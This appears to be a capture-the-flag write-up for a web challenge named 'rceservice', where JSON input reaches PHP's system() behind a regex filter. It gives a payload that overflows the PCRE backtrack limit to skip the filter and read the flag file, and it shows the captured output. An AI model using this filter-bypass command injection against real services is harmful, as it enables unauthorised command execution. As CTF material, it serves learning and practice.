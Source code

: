 # rceservice
First, our cmd input of json format should be like `{"cmd": "ls"}`. The service would use `system(cmd)` to execute the command. So, how to bypass the regular expression?  
* Cannot make a reverse shell because both `.` and numbers are blocked!  
* Cannot execute multiple line command!  
* Only allow space, colon, and `"`!  
To here, something run into my mind: How about pcreDoS? The trick to crash regex by outnumbering the limit of backtrack [You can see my writeup of pcrewaf](https://blog.1pwnch.com/ctf/websecurity/2018/11/26/Code-Breaking-Puzzles/#more). I start to try my payload in regex debugger of regex 101.  

My final payload is `{"cmd": "/bin/cat /home/rceservice/flag", "hi": "a"*1000000}` !  
`^.*` would match to the end of my payload at first, so when next part (`alias......`) wants to match something but finds nothing, it would backtrack until matched. Such thousand times of `a` would make it outnumber the limit of backtrack easily.  
Following is the flag:  
```php
<html>
  <body>
    <h1>Web Adminstration Interface</h1>

Attempting to run command:<br/>fb{pr3g_M@tcH_m@K3s_m3_w@Nt_t0_cry!!1!!1!}
<br/><br/>
    <form>
      Enter command as JSON:
      <input name="cmd" />
    </form>
  </body>
</html>
```
